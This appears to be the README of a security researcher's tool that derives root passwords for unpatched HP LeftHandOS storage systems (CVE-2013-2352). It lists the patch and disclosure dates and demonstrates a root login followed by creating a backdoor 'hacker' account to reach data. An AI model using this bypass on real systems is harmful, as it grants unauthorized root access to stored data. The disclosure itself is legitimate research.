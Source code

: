 LHNSKEY
=========

Generator for CVE-2013-2352.

By: technion@lolware.net

Affected Platforms:
    All Hardware and sofware implementations running LeftHandOS 10.5 or earlier, including Failover Manager and VSA.

Fix:
    Apply HP Patch 10152 (LefthandOS 10.5) or 10151 (LefthandOS 10.0).

Revision History:
----------------
    2nd July 2013: Initial design
    3th July 2013: Consulted with HP
    17th July 2013: HP Released Patch

Demonstration:
-------------
The lhnskey application will create an appropriate root password based on the support key encountered during logon.
I recommend the following site to create the s/key response: http://www.ocf.berkeley.edu/~jjlin/jsotp/md5/

    login as: root
    Support Key: 00:0C:29:XX:XX:XX
    Using keyboard-interactive authentication.
    Password:
    Using keyboard-interactive authentication.
    challenge s/key 99 loca11277
    password:

    #You may then grant yourself access to data by creating a CMC account
    [root@localhost lefthand]# adduser hacker 
    [root@localhost lefthand]# passwd hacker Changing password for user hacker.
    New UNIX password: <password>
    BAD PASSWORD: it is based on a dictionary word 
    Retype new UNIX password: <password>
    passwd: all authentication tokens updated successfully.
    [root@localhost lefthand]# chsh hacker
    Changing shell for hacker.
    New shell [/bin/bash]: /etc/lefthand/bin/cliq Shell changed.


Installation
------------
The official repository for lhnskey is the git tree. Install using the following:
    git clone https://github.com/technion/lhnskey
    ./configure
    make
    make check

The ./configure script accepts some options:
    --enable-development enable developer features default=no
    --enable-secure turn on security features default=yes

The autoconf script will link against OpenSSL if detected, otherwise, a shipped md5.c will be compiled in.
